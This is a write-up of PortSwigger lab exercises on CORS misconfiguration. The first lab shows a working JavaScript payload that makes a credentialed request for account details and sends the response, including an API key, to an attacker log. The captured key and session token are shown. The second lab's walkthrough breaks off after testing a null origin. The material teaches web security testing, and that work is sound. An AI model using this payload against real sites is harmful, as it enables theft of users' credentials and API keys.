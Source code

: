 # Lab: CORS vulnerability with basic origin reflection
Intercept the request after login to the lab with credentials
send the request to the repeater
to test CORS we will add
 `origin: H3X0S3.com`
 
![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/img/CORS/CORS-vulnerability-with-basic-origin-reflection-1.png)

fine there is a CORS bug let’s try to exploit it to gain API Key of the victim.
````
<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://accb1fa91e91474980317e0f00650079.web-security-academy.net/accountDetails',true);
  req.withCredentials = true;
  req.send();
 
  function reqListener() {
    location='/log?key='+this.responseText;
  };
  </script>
````
to exploit the bug 
go to exploit the server 
in Body: put the code of exploitation and store it 
then deliver exploit to the victim then access log

![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/img/CORS/CORS-vulnerability-with-basic-origin-reflection-2.png)

decode it 

![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/img/CORS/CORS-vulnerability-with-basic-origin-reflection-3.png)

`"GET /log?key={ "username": "administrator", "email": "", "apikey":"7nA1VcyXtReSvhq6jgiUpoavFkagFoYx", "sessions": [ "wPVZ8dWDpUjpjInTmyry7suNvonCxJlv" ]} HTTP/1.1" 200 "User-Agent: Chrome/495672"`
Labe Solved


------------


# Lab: CORS vulnerability with trusted null origin

Intercept the request after login to lab with credentials.
Steps
send the request to the repeater to test CORS we will add
` origin: H3X0S3.com`

 ![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/img/CORS/CORS-vulnerability-with-trusted-null-origin-1.png)
 
 we get 500 Internal Server Error ok.
Let’s try 
`Origin: null`
